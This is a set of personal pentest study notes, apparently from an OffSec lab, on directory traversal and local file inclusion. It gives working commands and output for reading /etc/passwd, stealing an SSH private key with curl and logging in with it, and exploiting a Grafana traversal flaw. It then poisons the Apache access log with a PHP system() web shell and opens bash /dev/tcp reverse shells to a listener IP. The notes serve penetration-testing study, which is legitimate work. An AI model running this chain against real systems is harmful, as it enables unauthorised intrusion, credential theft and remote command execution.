# Directory Traversal

### Absolute vs Relative Paths

- Linux Absolute: cat /etc/passwd
- Linux Absolute: cat .ssh/id_rsa
- Windows Absolute: C:\Windows\System32\drivers\etc\hosts
- Relative: ls ../../etc/passwd
- Relative: ls ../../.ssh/id_rsa

## Identifying and Exploiting Directory Traversals

**Windows File Systems:** ???
**Linux File Systems:**  /var/www/html/
```bash
#Typical Webpage HTML
http://example.com/file.html

#What is actually being pulled:
/var/www/html/file.html
```
- NOTE: always check for vulnerabilities by hovering over all buttons, checking all links, navigating to all accessible pages, and (if possible) examining the page's source code. Links can be an especially valuable source of information, providing parameters or other data about the application.
### Example
```bash
https://example.com/cms/login.php?language=en.html

#1: Tells us login.php tells us the web application uses PHP
#2: URL contains a language parameter with an HTML page as its value
    - Try to navigate to the file directly  (https://example.com/cms/en.html)
#3: the URL contains a directory called cms
    - indicating that the web application is running in a subdirectory of the web root
```
## Hover over each link, notice the link at the bottom


#### Clicking the link
- Note: Clicking the link shows an error at the bottom of the page, however the actual contents of the main page remains the same.

## Try director traversal via the ?page=
```bash

http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

Admin
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:106::/nonexistent:/usr/sbin/nologin sshd:x:105:65534::/run/sshd:/usr/sbin/nologin 
#offsec:x:1000:1000::/home/offsec:/bin/bash 

#NOTE: 1: Gave us a lister of usernames
#NOTE: 2: Shows us the file path /home/offsec, which we can now try to grab a SSH key for at /home/offsec/.ssh/id_rsa

```


## Grab SSH Key since we have file path

```bash
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```


## Grab the key with a CURL command

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

#NOTE: Sometimes Copy/Paste will not work for whatever reason. I had to do this to make it work, i output it into a file called "dt_key" then ran chmod on it.

curl "http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa" | sed -n '/BEGIN OPENSSH PRIVATE KEY/,/END OPENSSH PRIVATE KEY/p' > dt_key

#Then
chmod 400 dt_key

#Then
ssh -i dt_key -p 2222 offsec@mountaindesserts.com

```



## Directory Traversal notes:
- Once we gather information about the running application or service, we can research paths leading to sensitive files. For example, if we learn that a target system is running the Internet Information Services (IIS) web server, we can research its log paths and web root structure. Reviewing the Microsoft documentation, we learn that the logs are located at C:\inetpub\logs\LogFiles\W3SVC1\. Another file we should always check when the target is running an IIS web server is C:\inetpub\wwwroot\web.config, which may contain sensitive information like passwords or usernames.
- ..\ is an important alternative to ../ on Windows targets.
  - always try to leverage both forward slashes and backslashes when examining a potential directory traversal vulnerability in a web application running on Windows.

# Example #2

```bash

nmap -sV -sC -p 3000 192.168.217.193                                               

#Results

Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-23 18:14 +0000
Nmap scan report for 192.168.217.193
Host is up (0.093s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Grafana
|_Requested resource was /login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.99 seconds

# Then

searchsploit grafana    
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                                                   | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                               | multiple/webapps/50581.py
Grafana <=6.2.4 - HTML Injection                                                                                          | typescript/webapps/51073.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------

# Then
searchsploit -m 50581.py 

#Then 
Read file instructions and usage
```


## Example command

```bash
curl --path-as-is "http://192.168.217.193:3000/public/plugins/graph/../../../../../../../../../Users/install.txt"    

#Results
OS{c4d05301a510d54e0bb446ca94dbb15d}
```

# Encoding Special Characters

```bash
curl --path-as-is "http://192.168.217.16:3000/public/plugins/alertlist/../../../../../../../../../etc/passwd" 

#Results
root:x:0:0:root:/root:/bin/bash                                                                                                                             
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                                             
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                                                        
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                                                        
sync:x:4:65534:sync:/bin:/bin/sync                                                                                                                          
games:x:5:60:games:/usr/games:/usr/sbin/nologin                                                                                                             
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                                                             
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                                                                
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                                                                                                 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                                                                           
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                                                         
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                                                                                  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                                                        
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                                                        
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                                                                               
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin                                                                                                            
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin                                                                           
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin                                                                                                  
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin                                                                                                            
grafana:x:472:0::/home/grafana:/usr/sbin/nologin                  

#Run the same command encoded
curl --path-as-is "http://192.168.217.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" 

#Results
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

# File Inclusion

### Try an observe access.log behavior
- Does it log the User agent string?
      - Yes: Try injecting a RCE

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

# Results
SCROLL DOWN
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>  
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/ HTTP/1.1" 200 2361 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/bootstrap-theme.min.css HTTP/1.1" 200 2688 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/fontAwesome.css HTTP/1.1" 200 7826 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/hero-slider.css HTTP/1.1" 200 3340 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/tooplate-style.css HTTP/1.1" 200 3867 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/vendor/modernizr-2.8.3-respond-1.4.2.min.js HTTP/1.1" 200 8531 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/bootstrap.min.css HTTP/1.1" 200 19056 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/vendor/bootstrap.min.js HTTP/1.1" 200 9792 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/main.js HTTP/1.1" 200 1013 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.45.183 - - [23/Feb/2026:19:03:48 +0000] "GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1" 200 9640 "-" "curl/8.18.0"
# Looks like the same thing from Burp
```


# Modify the User Agent in Burp and specify what will be written to the access.log file
- Add code after `Mozilla/5.0' 
  ```bash
  <?php echo system($_GET['cmd']); ?>
  ```
 

 - The PHP code snippet was written to Apache's access.log file
   - 1st: enter the `ps` command to verify that the log poisoning is working.
     ```
     cmd=ps
     ```

    - 2nd: provide values for the two parameters (page for the relative path of the log and cmd for our command
    ```bash
    ../../../../../../../../../var/log/apache2/access.log

    # Put them together

    ../../../../../../../../../var/log/apache2/access.log&cmd=ps

    # Put the full string together with the Target Website

    GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps HTTP/1.1

    #DO NOT FORGET TO REMOVE INJECT FROM USER AGENT STRING. THIS PREVENTS RE-INJECTING!!

    # We confirmed it worked
    ```
    

# Incorporate ls -la command

```
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls -la HTTP/1.1

# It does not like the spacing between ls -la
```



- Reference this site: https://www.w3schools.com/tags/ref_urlencode.asp


```bash
ls%20-la

# Put it all together 
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la HTTP/1.1
```


# Establish a Reverse Shell

## In this instance, the command is executed through a PHP system function.
### Couple Reverse Shell options
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

# or

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

# or

#URL Encoded via the website or https://www.revshells.com/ or https://www.w3schools.com/tags/ref_urlencode.asp
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```


or


### Start listener
```bash
nc -nvlp 4444
```


# Windows Based LFI

- A target running XAMPP, the Apache logs can be found in C:\xampp\apache\logs\.